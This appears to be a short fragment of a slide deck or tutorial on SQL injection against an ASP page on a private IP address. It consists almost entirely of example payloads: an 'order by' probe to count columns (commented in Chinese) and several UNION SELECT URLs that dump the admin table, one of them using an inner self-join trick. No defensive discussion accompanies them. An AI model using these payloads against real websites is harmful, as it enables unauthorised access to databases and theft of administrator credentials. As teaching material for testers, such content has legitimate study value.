

Eg:
192.168.149.130:85/show.asp?pkid=482 order by 38  --得到字段长度
http://192.168.149.130:85/show.asp?pkid=4820 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,*from admin
http://192.168.149.130:85/show.asp?pkid=4820%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,*from%20admin
http://192.168.149.130:85/show.asp?pkid=4820%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,*%20from%20(admin%20as%20a%20inner%20join%20admin%20as%20b%20on%20a.id=b.id)